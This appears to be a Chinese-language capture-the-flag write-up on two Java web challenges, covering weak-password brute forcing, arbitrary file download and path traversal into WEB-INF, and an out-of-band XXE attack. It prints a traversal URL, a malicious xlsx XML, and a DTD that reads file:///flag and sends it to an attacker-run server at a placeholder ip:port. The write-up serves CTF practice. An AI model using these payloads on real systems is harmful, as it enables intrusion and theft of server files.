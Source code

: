 ```yaml
---
title: buu一道简单java web
date: 2024-10-09 19:14:26
permalink: /pages/24d392/
sidebar: false
author: 
  name: Cola
  link: https://the0n3.top
---
```

## [RoarCTF 2019]Easy Java

buu平台一道简单java web[[RoarCTF 2019]Easy Java](https://buuoj.cn/challenges#[RoarCTF%202019]Easy%20Java)

![1](https://the0n3.top/medias/buujava/1.png)

打开题目，一个登录页面，可以bp爆破出弱密码`admin/admin888`

![2](https://the0n3.top/medias/buujava/2.png)

登录页没什么内容

![3](https://the0n3.top/medias/buujava/3.png)

尝试首页的`help`，路由像是存在任意文件下载漏洞，没有下载`help.docx`文件，换成post请求才能下载文件，这是什么题目，这也是play的一环吗

post发送请求`filename=help.docx`，下载`help.docx`文件，没用

关于`WEB-INF`目录

::: tip
 WEB-INF主要包含一下文件或目录： 
/WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。 
/WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中 
/WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件 
/WEB-INF/src/：源码目录，按照包名结构放置各个java文件。 
/WEB-INF/database.properties：数据库配置文件
:::

下载`/WEB-INF/web.xml`文件，看看服务配置项，里面记录了FLAG的controller

![5](https://the0n3.top/medias/buujava/5.png)

所以可以找`/WEB-INF/classes/com/wm/ctf/FlagController.class`，下载class文件，用[jd-gui下载](https://java-decompiler.github.io/)反编译

![6](https://the0n3.top/medias/buujava/6.png)

flag base64编码了，解码拿到flag


## [网鼎杯 2020 青龙组]filejava

上传文件后，可以下载，下载功能存在目录穿越漏洞

![7](https://the0n3.top/medias/buujava/7.png)

![8](https://the0n3.top/medias/buujava/8.png)

穿越下载java web的配置文件web.xml

![9](https://the0n3.top/medias/buujava/9.png)

下载实现主要功能的class文件`DownloadServlet.class`,`ListFileServlet.class`,`UploadServlet.class`

在java web中，这些文件在`/WEB-INF/classes`目录下的自定义package下，也就是这里的`/cn/abc/servlet`下

`url/DownloadServlet?filename=../../../../WEB-INF/classes/cn/abc/servlet/DownloadServlet.class`下载class文件，审计源码

审计`DownloadServlet.class`，可以看到存在`flag`时会禁止下载

![10](https://the0n3.top/medias/buujava/10.png)

审计`ListFileServlet.class`，没有什么可以利用的

![11](https://the0n3.top/medias/buujava/11.png)

审计`UploadServlet.class`，如果上传的文件名是`excel-`开头，`.xlsx`结尾，那么会尝试读取文件的xml文件。doc， xlsx等文件实质是zip压缩包，里面存在一个xml文件，可以创建一个正常的excel文件，改扩展名为zip，把里面内容替换为恶意xml内容，再压缩，改回xlsx扩展名，上传。打一个xxe漏洞

![12](https://the0n3.top/medias/buujava/12.png)

```java
if (filename.startsWith("excel-") && "xlsx".equals(fileExtName))
          try {
            // 读取xml文件，引用vps的dtd文件，利用xxe漏洞读取flag
            Workbook wb1 = WorkbookFactory.create(in);
            Sheet sheet = wb1.getSheetAt(0);
            System.out.println(sheet.getFirstRowNum());
          } catch (InvalidFormatException e) {
            System.err.println("poi-ooxml-3.10 has something wrong");
            e.printStackTrace();
          }
```

这是创建的excel文件修改为zip文件里的xml文件内容，写好后再全部压缩到一个包里，扩展名改回`xlsx`，文件名`excel-1.xlsx`

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE data SYSTEM "http://ip:port/1.dtd">
<data>&send;</data>
<Types xmlns="http://schemas.openxmlformats.org/package/2006/content-types"><Default Extension="rels" ContentType="application/vnd.openxmlformats-package.relationships+xml"/><Default Extension="xml" ContentType="application/xml"/><Override PartName="/xl/workbook.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.sheet.main+xml"/><Override PartName="/xl/worksheets/sheet1.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/theme/theme1.xml" ContentType="application/vnd.openxmlformats-officedocument.theme+xml"/><Override PartName="/xl/styles.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.styles+xml"/><Override PartName="/docProps/core.xml" ContentType="application/vnd.openxmlformats-package.core-properties+xml"/><Override PartName="/docProps/app.xml" ContentType="application/vnd.openxmlformats-officedocument.extended-properties+xml"/></Types>
```


vps进入一个空目录，新建1.dtd文件，内容为

```xml
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://ip:port/?%file;'>">
%all;
```

开启一个web服务，端口要和上面xml，dtd的端口一致

```bash
python3 -m http.server 4444
```

上传文件，可以在日志看到目标主机带着flag的访问

![14](https://the0n3.top/medias/buujava/14.png)

![13](https://the0n3.top/medias/buujava/13.png)



参考：

- [BUUCTF：[RoarCTF 2019]Easy Java](https://blog.csdn.net/mochu7777777/article/details/109572179)
- [常见java反编译工具 _](https://hksanduo.github.io/2021/06/22/2021-06-22-java-decompiler-tools/#)
- [网鼎杯2020青龙组 web writeup ](https://www.cnblogs.com/W4nder/p/12866365.html)